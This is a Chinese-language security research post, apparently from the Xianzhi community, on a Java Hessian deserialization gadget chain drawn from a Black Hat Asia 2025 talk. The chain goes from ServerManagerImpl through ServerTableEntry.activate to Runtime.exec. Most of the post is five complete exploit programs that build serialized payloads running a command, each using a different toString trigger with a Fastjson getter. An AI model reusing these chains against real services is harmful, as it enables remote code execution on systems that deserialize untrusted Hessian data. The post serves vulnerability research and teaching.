





# Black2025-JDD Hessian反序列化链-先知社区

> **来源**: https://xz.aliyun.com/news/19119  
> **文章ID**: 19119

---

参考链接：[Black2025-JDD](https://www.blackhat.com/asia-25/briefings/schedule/#jdd-in-depth-mining-of-java-deserialization-gadget-chains-via-bottom-up-gadget-search-and-dataflow-aided-payload-construction-44141)

### Sink

首先来看一下sink点的构造：

```
ServerManagerImpl serverManager = (ServerManagerImpl) ReflectUtil.newInstance(ServerManagerImpl.class, new Class[]{}, new Object[]{});
        HashMap<Integer, ServerTableEntry> map =new HashMap<>();
        ServerTableEntry serverTableEntry = (ServerTableEntry) ReflectUtil.newInstance(ServerTableEntry.class, new Class[]{}, new Object[]{});
        map.put(1,serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        ReflectUtil.setFieldValue(serverManager, "serverTable", map);
        ReflectUtil.setFieldValue(serverTableEntry,"state",2);
        ReflectUtil.setFieldValue(serverTableEntry, "process", process);
        ReflectUtil.setFieldValue(serverTableEntry, "activationCmd", "calc");
```

来看`com.sun.corba.se.impl.activation.ServerManagerImpl#getActiveServers`方法：

```
public int[] getActiveServers()
    {
        ServerTableEntry entry;
        int[] list = null;

        synchronized (serverTable) {
            // unlike vectors, list is not synchronized

            ArrayList servers = new ArrayList(0);

            Iterator serverList = serverTable.keySet().iterator();

            try {
                while (serverList.hasNext()) {
                    Integer key = (Integer) serverList.next();
                    // get an entry
                    entry = (ServerTableEntry) serverTable.get(key);

                    if (entry.isValid() && entry.isActive()) {
                        servers.add(entry);
                    }
                }
            } catch (NoSuchElementException e) {
                // all done
            }

            // collect the active entries
            list = new int[servers.size()];
            for (int i = 0; i < servers.size(); i++) {
                entry = (ServerTableEntry) servers.get(i);
                list[i] = entry.getServerId();
            }
        }

        if (debug) {
            StringBuffer sb = new StringBuffer() ;
            for (int ctr=0; ctr<list.length; ctr++) {
                sb.append( ' ' ) ;
                sb.append( list[ctr] ) ;
            }

            System.out.println( "ServerManagerImpl: getActiveServers returns" +
                                sb.toString() ) ;
        }

        return list;
    }
```

其中调用了`ServerTableEntry`的`isValid`方法，跟进分析：

```
synchronized boolean isValid()
    {
        if ((state == ACTIVATING) || (state == HELD_DOWN)) {
            if (debug)
                printDebug( "isValid", "returns true" ) ;

            return true;
        }

        try {
            int exitVal = process.exitValue();
        } catch (IllegalThreadStateException e1) {
            return true;
        }

        if (state == ACTIVATED) {
            if (activateRetryCount < ActivationRetryMax) {
                if (debug)
                    printDebug("isValid", "reactivating server");
                activateRetryCount++;
                activate();
                return true;
            }

            if (debug)
                printDebug("isValid", "holding server down");

            holdDown();
            return true;
        }

        deActivate();
        return false;
    }
```

其中调用了`activate`方法，跟进：

```
synchronized void activate() throws org.omg.CORBA.SystemException
    {
        state = ACTIVATED;

        try {
            if (debug)
                printDebug("activate", "activating server");
            process = Runtime.getRuntime().exec(activationCmd);
        } catch (Exception e) {
            deActivate();
            if (debug)
                printDebug("activate", "throwing premature process exit");
            throw wrapper.unableToStartProcess() ;
        }
    }
```

这里面自带命令执行。  
那么此时上面的赋值构造方式比较清晰，不用细说了。

### 触发getter

选个fastjson或jackson啥的都行，我这里就以Jackson为例了：

```
JSONObject jsonObject = new JSONObject();
        jsonObject.put("key", serverManager);
```

### 触发toString

这也是老生常谈的问题了，在2024年的羊城杯就有过利用Hashmap的put去触发getter的方法，以下随便列举几种方式吧，就不细说怎么分析的了：

##### AudioFileFormat$Type

```
package com.jdd;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.corba.se.impl.activation.ServerManagerImpl;
import com.sun.corba.se.impl.activation.ServerTableEntry;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.concurrent.ConcurrentHashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        ServerManagerImpl serverManager = (ServerManagerImpl) ReflectUtil.newInstance(ServerManagerImpl.class, new Class[]{}, new Object[]{});
        HashMap<Integer, ServerTableEntry> map =new HashMap<>();
        ServerTableEntry serverTableEntry = (ServerTableEntry) ReflectUtil.newInstance(ServerTableEntry.class, new Class[]{}, new Object[]{});
        map.put(1,serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        ReflectUtil.setFieldValue(serverManager, "serverTable", map);
        ReflectUtil.setFieldValue(serverTableEntry,"state",2);
        ReflectUtil.setFieldValue(serverTableEntry, "process", process);
        ReflectUtil.setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("key", serverManager);


        Object conEntry = ReflectUtil.newInstance(Class.forName("javax.sound.sampled.AudioFileFormat$Type"), new Class[]{}, new Object[]{});
        Object conEntry1 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        Object conEntry2 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        ReflectUtil.setFieldValue(conEntry1, "key", conEntry);
        ReflectUtil.setFieldValue(conEntry1, "val", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "key", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "val", conEntry);
        ConcurrentHashMap s = new ConcurrentHashMap();
        ReflectUtil.setFieldValue(s, "sizeCtl", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, conEntry1, conEntry1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, conEntry2, conEntry2, null));
        ReflectUtil.setFieldValue(s, "table", tbl);
        Field table = ConcurrentHashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        table.set(s, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(byteArrayOutputStream);

        SerializerFactory sf = new SerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);
        out.writeObject(s);
        out.flush();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new Hessian2Input(byteArrayInputStream).readObject();
    }
}
```



##### javax.sound.sampled.AudioFormat$Encoding

```
package com.jdd;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.corba.se.impl.activation.ServerManagerImpl;
import com.sun.corba.se.impl.activation.ServerTableEntry;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.concurrent.ConcurrentHashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        ServerManagerImpl serverManager = (ServerManagerImpl) ReflectUtil.newInstance(ServerManagerImpl.class, new Class[]{}, new Object[]{});
        HashMap<Integer, ServerTableEntry> map =new HashMap<>();
        ServerTableEntry serverTableEntry = (ServerTableEntry) ReflectUtil.newInstance(ServerTableEntry.class, new Class[]{}, new Object[]{});
        map.put(1,serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        ReflectUtil.setFieldValue(serverManager, "serverTable", map);
        ReflectUtil.setFieldValue(serverTableEntry,"state",2);
        ReflectUtil.setFieldValue(serverTableEntry, "process", process);
        ReflectUtil.setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("key", serverManager);


        Object conEntry = ReflectUtil.newInstance(Class.forName("javax.sound.sampled.AudioFormat$Encoding"), new Class[]{}, new Object[]{});
        Object conEntry1 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        Object conEntry2 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        ReflectUtil.setFieldValue(conEntry1, "key", conEntry);
        ReflectUtil.setFieldValue(conEntry1, "val", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "key", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "val", conEntry);
        ConcurrentHashMap s = new ConcurrentHashMap();
        ReflectUtil.setFieldValue(s, "sizeCtl", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, conEntry1, conEntry1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, conEntry2, conEntry2, null));
        ReflectUtil.setFieldValue(s, "table", tbl);
        Field table = ConcurrentHashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        table.set(s, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(byteArrayOutputStream);

        SerializerFactory sf = new SerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);
        out.writeObject(s);
        out.flush();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new Hessian2Input(byteArrayInputStream).readObject();
    }
}
```



##### XString

```
package com.jdd;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.corba.se.impl.activation.ServerManagerImpl;
import com.sun.corba.se.impl.activation.ServerTableEntry;
import com.sun.org.apache.xpath.internal.objects.XString;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.concurrent.ConcurrentHashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        ServerManagerImpl serverManager = (ServerManagerImpl) ReflectUtil.newInstance(ServerManagerImpl.class, new Class[]{}, new Object[]{});
        HashMap<Integer, ServerTableEntry> map =new HashMap<>();
        ServerTableEntry serverTableEntry = (ServerTableEntry) ReflectUtil.newInstance(ServerTableEntry.class, new Class[]{}, new Object[]{});
        map.put(1,serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        ReflectUtil.setFieldValue(serverManager, "serverTable", map);
        ReflectUtil.setFieldValue(serverTableEntry,"state",2);
        ReflectUtil.setFieldValue(serverTableEntry, "process", process);
        ReflectUtil.setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("key", serverManager);

        XString conEntry = new XString("xxx");
        Object conEntry1 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        Object conEntry2 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        ReflectUtil.setFieldValue(conEntry1, "key", conEntry);
        ReflectUtil.setFieldValue(conEntry1, "val", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "key", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "val", conEntry);
        ConcurrentHashMap s = new ConcurrentHashMap();
        ReflectUtil.setFieldValue(s, "sizeCtl", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, conEntry1, conEntry1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, conEntry2, conEntry2, null));
        ReflectUtil.setFieldValue(s, "table", tbl);
        Field table = ConcurrentHashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        table.set(s, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(byteArrayOutputStream);

        SerializerFactory sf = new SerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);
        out.writeObject(s);
        out.flush();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new Hessian2Input(byteArrayInputStream).readObject();
    }
}


```



##### XStringForChars

```
package com.jdd;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.corba.se.impl.activation.ServerManagerImpl;
import com.sun.corba.se.impl.activation.ServerTableEntry;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.org.apache.xpath.internal.objects.XStringForChars;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.concurrent.ConcurrentHashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        ServerManagerImpl serverManager = (ServerManagerImpl) ReflectUtil.newInstance(ServerManagerImpl.class, new Class[]{}, new Object[]{});
        HashMap<Integer, ServerTableEntry> map =new HashMap<>();
        ServerTableEntry serverTableEntry = (ServerTableEntry) ReflectUtil.newInstance(ServerTableEntry.class, new Class[]{}, new Object[]{});
        map.put(1,serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        ReflectUtil.setFieldValue(serverManager, "serverTable", map);
        ReflectUtil.setFieldValue(serverTableEntry,"state",2);
        ReflectUtil.setFieldValue(serverTableEntry, "process", process);
        ReflectUtil.setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("key", serverManager);

        XStringForChars conEntry = new XStringForChars(new char[0], 0, 0);
        ReflectUtil.setFieldValue(conEntry, "m_strCache", "");
        Object conEntry1 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        Object conEntry2 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        ReflectUtil.setFieldValue(conEntry1, "key", conEntry);
        ReflectUtil.setFieldValue(conEntry1, "val", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "key", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "val", conEntry);
        ConcurrentHashMap s = new ConcurrentHashMap();
        ReflectUtil.setFieldValue(s, "sizeCtl", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, conEntry1, conEntry1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, conEntry2, conEntry2, null));
        ReflectUtil.setFieldValue(s, "table", tbl);
        Field table = ConcurrentHashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        table.set(s, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(byteArrayOutputStream);

        SerializerFactory sf = new SerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);
        out.writeObject(s);
        out.flush();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new Hessian2Input(byteArrayInputStream).readObject();
    }
}


```



##### XStringForFSB

```
package com.jdd;

import com.alibaba.fastjson.JSONObject;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.corba.se.impl.activation.ServerManagerImpl;
import com.sun.corba.se.impl.activation.ServerTableEntry;
import com.sun.org.apache.xml.internal.utils.FastStringBuffer;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.org.apache.xpath.internal.objects.XStringForChars;
import com.sun.org.apache.xpath.internal.objects.XStringForFSB;

import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.concurrent.ConcurrentHashMap;

public class Main {
    public static void main(String[] args) throws Exception {
        ServerManagerImpl serverManager = (ServerManagerImpl) ReflectUtil.newInstance(ServerManagerImpl.class, new Class[]{}, new Object[]{});
        HashMap<Integer, ServerTableEntry> map =new HashMap<>();
        ServerTableEntry serverTableEntry = (ServerTableEntry) ReflectUtil.newInstance(ServerTableEntry.class, new Class[]{}, new Object[]{});
        map.put(1,serverTableEntry);

        Process process = new ProcessBuilder("cmd", "/c", "exit").start();

        ReflectUtil.setFieldValue(serverManager, "serverTable", map);
        ReflectUtil.setFieldValue(serverTableEntry,"state",2);
        ReflectUtil.setFieldValue(serverTableEntry, "process", process);
        ReflectUtil.setFieldValue(serverTableEntry, "activationCmd", "calc");

        JSONObject jsonObject = new JSONObject();
        jsonObject.put("key", serverManager);

        XStringForFSB conEntry = new XStringForFSB(new FastStringBuffer(), 0, 0);
        ReflectUtil.setFieldValue(conEntry, "m_strCache", null);
        Object conEntry1 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        Object conEntry2 = ReflectUtil.newInstance(Class.forName("java.util.concurrent.ConcurrentHashMap$MapEntry"), new Class[]{}, new Object[]{});
        ReflectUtil.setFieldValue(conEntry1, "key", conEntry);
        ReflectUtil.setFieldValue(conEntry1, "val", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "key", jsonObject);
        ReflectUtil.setFieldValue(conEntry2, "val", conEntry);
        ConcurrentHashMap s = new ConcurrentHashMap();
        ReflectUtil.setFieldValue(s, "sizeCtl", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.concurrent.ConcurrentHashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, conEntry1, conEntry1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, conEntry2, conEntry2, null));
        ReflectUtil.setFieldValue(s, "table", tbl);
        Field table = ConcurrentHashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        table.set(s, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(byteArrayOutputStream);

        SerializerFactory sf = new SerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);
        out.writeObject(s);
        out.flush();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        new Hessian2Input(byteArrayInputStream).readObject();
    }
}


```

  
还有几个就不一一细说了，其实如果从这个角度算的话JDD发现的几百条新链子也没那么吓人。

### 总结

这个链子属于是难找但是构造好理解的那种，一贴exp直接就能理解为什么这么构造，其中的ServerManagerImpl也是无疑拓展了hessian执行命令的打法的。
